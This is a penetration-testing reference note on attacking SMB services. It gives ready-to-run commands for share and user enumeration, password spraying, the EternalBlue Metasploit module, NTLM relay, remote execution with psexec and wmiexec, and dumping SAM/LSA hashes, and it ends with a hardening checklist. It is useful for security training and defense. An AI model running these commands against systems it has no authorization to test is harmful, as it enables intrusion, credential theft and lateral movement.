

# 06 - SMB (Ports 139/445) Pentesting

## 1. Executive Summary

SMB (Server Message Block) shares files, printers, and named pipes on Windows networks over **TCP 445** (direct) and **139** (NetBIOS). It is one of the most attacked services: **null sessions** leak users/shares, weak credentials grant share access, **NTLM relay** moves laterally, and unpatched stacks fall to **EternalBlue (MS17-010)**. SMB is central to almost every internal pentest.

## 2. Protocol Overview

- SMBv1 (legacy, dangerous), SMBv2, SMBv3 (encryption, signing).
- **IPC$** named-pipe share enables RPC enumeration; **null/anonymous session** = connect with no creds.
- Auth via NTLM or Kerberos; **SMB signing** off → relay attacks possible.

## 3. Enumeration

```bash
# Full automated enum (users, shares, groups, password policy, OS)
enum4linux -a <IP>
enum4linux-ng -A <IP>

# Nmap
nmap --script "safe or smb-enum-*" -p445 <IP>
nmap -p445 --script smb-os-discovery,smb-security-mode,smb-protocols <IP>

# NetExec (formerly CrackMapExec) — the workhorse
nxc smb <IP>                              # OS, signing, SMBv1
nxc smb <IP> -u '' -p ''                  # null session
nxc smb <IP> -u guest -p '' --shares
nxc smb <IP> -u user -p pass --users --groups --pass-pol --rid-brute

# Browse/access shares
smbclient -L //<IP>/ -N
smbclient //<IP>/share -N
impacket-samrdump <IP>
```

## 4. Exploitation

### 4.1 Null / Anonymous Session
Connect with empty creds to enumerate users, groups, shares, and password policy via IPC$. Harvested usernames feed password sprays.

### 4.2 Credential Attacks & Spraying
```bash
nxc smb <IP> -u users.txt -p 'Winter2026!' --continue-on-success   # spray
hydra -L users.txt -P pass.txt smb://<IP>
```

### 4.3 EternalBlue (MS17-010)
```bash
nmap -p445 --script smb-vuln-ms17-010 <IP>
msf> use exploit/windows/smb/ms17_010_eternalblue
```
Unauthenticated SYSTEM RCE on unpatched Windows 7/2008/2012.

### 4.4 NTLM Relay
With SMB signing disabled, relay captured NTLM auth (from Responder/mitm6) to other hosts:
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```
See **[[05 - SMB Relay Attacks NTLM Relay on Network Level]]**.

### 4.5 Authenticated RCE
```bash
impacket-psexec  DOMAIN/user:pass@<IP>
impacket-wmiexec DOMAIN/user:pass@<IP>
nxc smb <IP> -u user -p pass -x "whoami"
```

## 5. Mermaid Attack Flow


## 6. Post-Exploitation
- Dump SAM/LSA: `nxc smb <IP> -u admin -p pass --sam --lsa`.
- Read shares for creds, scripts, backups; pass-the-hash to spread.

## 7. Defense & Hardening
1. Disable SMBv1; enforce SMB signing + encryption.
2. Patch MS17-010 and all SMB CVEs.
3. Restrict null sessions (`RestrictAnonymous`); segment SMB at the firewall.
4. LAPS for local admin; tiered admin model to limit relay/PtH.

## 8. Chaining Opportunities
- Null session users → Kerberos AS-REP/spray. See **[[09 - Kerberos (Port 88) Pentesting]]**.
- Dumped hashes → pass-the-hash lateral movement → DA.

## 9. Related Notes
- [[09 - Kerberos (Port 88) Pentesting]]
- [[27 - NetBIOS (Ports 137-139) Pentesting]]
- [[26 - MSRPC (Port 135) Pentesting]]

## 10. Tools
`netexec/nxc`, `enum4linux-ng`, `smbclient`, `impacket` suite, `responder`, `nmap` smb-*.
